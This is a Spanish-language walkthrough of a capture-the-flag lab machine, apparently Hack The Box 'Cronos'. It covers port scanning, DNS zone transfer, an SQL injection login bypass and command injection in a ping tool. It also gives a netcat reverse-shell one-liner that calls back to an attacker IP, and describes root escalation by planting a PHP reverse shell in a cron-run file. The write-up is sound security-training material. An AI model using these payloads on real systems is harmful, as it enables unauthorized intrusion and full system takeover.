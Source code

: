 We start by scanning for open ports and running services using the nmap tool.
`sudo nmap -p- --open -sS --min-rate 5000 -n -v -sV -Pn 10.10.10.13 > escaneo.txt`

![[Pasted image 20240805031054.png]]
Podemos observar que el puerto 22 esta abierto y corre un servicio ssh, el puerto 53 esta coririendo un servidor DNS llamado BIND y el puerto 80 esta corriendo una web http en Apache.

BIND (Berkeley Internet Name Domain) es uno de los servidores DNS más populares y ampliamente utilizados en Internet para resolver nombres de dominio a direcciones IP y viceversa.

Procedemos a escanear la web http mediante la herramienta whatweb
`whatweb -v 10.10.10.13`
![[Pasted image 20240805031443.png]]
Al ver el resultado procedemos a visitar la web
![[Pasted image 20240805031532.png]]
Observamos la pagina por defecto del servidor Apache, por lo que procedemos a hacer un fuzzing de dominios para ver lo que encontramos 
Sin / al final 
`ffuf -w ../../../diccionario/Directorios/directory-list-2.3-medium.txt -u http://10.10.10.13/FUZZ -e .php,.txt,.js`
Con / al final 
`...  http://10.10.10.13/FUZZ/ ...
No encontramos nada en el fuzzing de directorios
Comprobando la informacion del escaneo de nmap podemos ver que por ssh no podemos ir ya que no disponemos de credenciales, procedemos a buscar por searchsploit algo sobre la version de BIND del resultado del escaneo

![[Pasted image 20240805032233.png]]

Utilizaremos dnsrecon para escanear el rango de ip del servidor DNS, para ver si podemos obtener algo de información
`dnsrecon` es una herramienta de código abierto que se utiliza para realizar enumeración y reconocimiento de DNS (Domain Name System).
`dnsrecon -r 10.10.10.0/24 -n 10.10.10.13`
![[Pasted image 20240805032722.png]]
Parece ser que encontramos un dominio, vamos a modificar el archivo /etc/hosts para que la ip 10.10.10.13 apunte al dominio cronos.htb
`sudo nano /etc/hosts`
![[Pasted image 20240805032859.png]]

--------------------------------------------------------------------------
### OTRA MANERA DE ENCONTRAR EL DOMINIO

## nslookup

![[Pasted image 20240805025228.png]]

--------------------------------------------------------------------------
Visitamos la web del dominio encontrado tras modificar el archivo hosts, y encontramos unicamente links a webs externas
![[Pasted image 20240805182316.png]]

Con este dominio intentamos hacer fuzzing de directorios para ver si encuentra algun directorio interresante
`ffuf -w ../../../diccionario/Directorios/directory-list-2.3-medium.txt -u http://cronos.htb/FUZZ -e .php,.txt,.js -c `

![[Pasted image 20240805185842.png]]

`http://cronos.htb/robots.txt
![[Pasted image 20240805182848.png]]

Al no encontrar nada interesante intentaremos con un fuzzing y tras revisar el escaneo de nmap podemos ver que al estar el puerto 53 abierto con el servidor dns podemos utilizar la herramienta `dig`  para realizar solicitudes dns.


## dig

`dig` (Domain Information Groper) es una herramienta de línea de comandos utilizada para realizar consultas DNS (Domain Name System). Es ampliamente utilizada por administradores de sistemas, profesionales de redes y de seguridad para investigar y diagnosticar problemas relacionados con el DNS, así como para obtener información detallada sobre cómo un dominio resuelve en Internet.
### Funciones Principales de `dig`

1. **Consulta de Registros DNS**:
    
    - `dig` permite consultar varios tipos de registros DNS, como `A`, `AAAA`, `CNAME`, `MX`, `NS`, `TXT`, entre otros. Estos registros proporcionan información específica sobre cómo un dominio está configurado en el DNS.


Consulta de servidores de nombres (NS):

`dig @10.10.10.13 cronos.htb NS`
![[Pasted image 20240806035308.png]]
Consulta de registros MX (servidores de correo):

`dig @10.10.10.13 cronos.htb MX
![[Pasted image 20240806035335.png]]
Transferencia de zona completa (AXFR):

Para intentar obtener todos los registros DNS de cronos.htb desde el servidor BIND:

`dig @10.10.10.13 cronos.htb axfr`
![[Pasted image 20240806035406.png]]


--------------------------------------------------------------------------
## OTRAS FORMAS DE ENCONTRAR EL SUBDOMINIO:

# wfuff


# gobuster


--------------------------------------------------------------------------
Al obtener el subdominio procedemos a añadirlo al archivo /etc/hosts
![[Pasted image 20240806035517.png]]

Vamos a visitar el subdominio 
`http://admin.cronos.htb/`
![[Pasted image 20240806035549.png]]
Nos encontramos con un login, suponemos que es un panel de administrador, probamos credenciales como admin admin, etc
Lo primero que se me viene a la mente es un sql injection, vamos a probar con algo sencillo
![[Pasted image 20240806040247.png]]

--------------------------------------------------------------------------

Otra manera de indicar comentario aparte de -- - es con #
![[Pasted image 20240806042857.png]]

--------------------------------------------------------------------------
Si es vulnerable a injecciones sql se supone que el funcionamientode un login es el siguiente 
Ejemplo SQL(para ambos casos)
SELECT * FROM usuarios WHERE username = 'usuario' AND password = 'contraseña';

Al indicar en el username `' or 1=1-- -` o `' or 1=1 #`a nivel de base de datos, se cierra la comilla del username y la condicion pasaria a ser, usuario vacio o 1=1(TRUE) y se comenta lo demas, por lo que si no esta bien protegida la interaccion con la base de datos es vulnerable a este tipo de injecciones sql.

Ejemplo SQL
SELECT * FROM usuarios WHERE username = '' or 1=1-- ' `AND password = 'contraseña';
Todo lo demas quedaria comentado y se completaria el login

Le damos a submit y ¿?
![[Pasted image 20240806040625.png]]

Accedimos, es vulnerable a sql injection
Tras ver como funciona la web del admin vemos que hay un select que tiene la opcion de ping y traceroute, si ponemos nuestra ip vemos que le hace ping 


![[Pasted image 20240806041125.png]]
Obtenemos
![[Pasted image 20240806041136.png]]
Lo primero que he probado es lo siguiente
`;whoami`
![[Pasted image 20240806041215.png]]
Ejecutamos y !!!!!!!
![[Pasted image 20240806043610.png]]
Obtenemos RCE, explicacion:
Al poner ; se anula el comando y se puede lanzar otro
![[Pasted image 20240806041315.png]]

Probaremos a lanzar una reverse shell, tars probar varias esta es la que me funciono:
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.37 4444 >/tmp/f`

![[Pasted image 20240806043532.png]]

Nos ponemos en escucha en el puerto indicado en la reverse shell
`nc -lvnp 4444`
Y lanzamos la reverse shell
![[Pasted image 20240806043931.png]]
Estamos dentro !!!!!!!!!!
User flag
![[Pasted image 20240808005655.png]]

Escalada de privilegios

Ya que no podemos usar sudo -l porque nos pide contraseña, probaremos buscando binarios con permisos SUID
`find / -perm -4000 2>/dev/null`
Al parecer no encontramos ningun binario interesante por lo que probaremos lo siguiente:
`cat /etc/crontab`
El archivo `/etc/crontab` es un archivo de configuración en sistemas Linux y Unix que define tareas programadas (cron jobs) que se ejecutan de manera automática en intervalos de tiempo específicos.

Tenemos algo interesante
`cat /etc/crontab` && `crontab -l`
![[Pasted image 20240808012148.png]]Al ser el usuario www-data pdemos acceder a ese archivo 
![[Pasted image 20240808012304.png]]
La maquina linux cada cierto tiempo ejecuta un php artisan run, para levantar la web, por lo que si tenemos acceso a este binario en php podemos modificarlo y añadir una reverse shell
 Sustituimos el contenido del archivo por esta reverse shell 
 https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
 Indicamos nuestra ip y el puerto en la reverse shell y lo añadimos al archivo,
 ahora nos ponemos en escucha y esperamos a que el proceso se ejecute

![[Pasted image 20240808013336.png]]

Ya tenemos acceso como root

Root flag
![[Pasted image 20240808013407.png]]